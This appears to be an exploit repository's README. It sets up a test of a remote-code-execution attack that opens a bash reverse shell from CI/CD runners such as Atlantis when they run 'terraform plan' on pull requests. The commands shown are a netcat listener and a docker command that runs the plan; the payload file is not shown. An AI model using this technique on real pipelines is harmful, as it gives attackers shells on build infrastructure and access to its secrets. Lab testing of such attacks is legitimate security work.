 
# Overview
Src - https://alex.kaskaso.li/post/terraform-plan-rce

But with bash reverse shell, as on terraform runner (e.g. atlantis container) you might not get python.
Following exploit can be tested on CI/CD pipeline that is running `terraform plan` on each commit to git repository, when Pull Request is open for branch.


# Testing with atlantis locally

## One terminal tab (either locally or on different host)
```bash
nc -vklp  4242
```

## Second terminal tab (either same host or remote host)

```bash
# `--net=host` is only needed if you want to connect to same host, where docker container is running
# Then in exploit, you need to use as remote address `host.docker.internal` as equivalent to `localhost` pointing from container to its host system
# ghcr.io/runatlantis/atlantis@sha256:5cced9af236abd0743018e41fbe1b574a0bb739c0566102628f4c7553945cffc
docker run --net=host -v "$(pwd)":/app -it ghcr.io/runatlantis/atlantis bash -c "cd /app; terraform init; terraform plan"
```
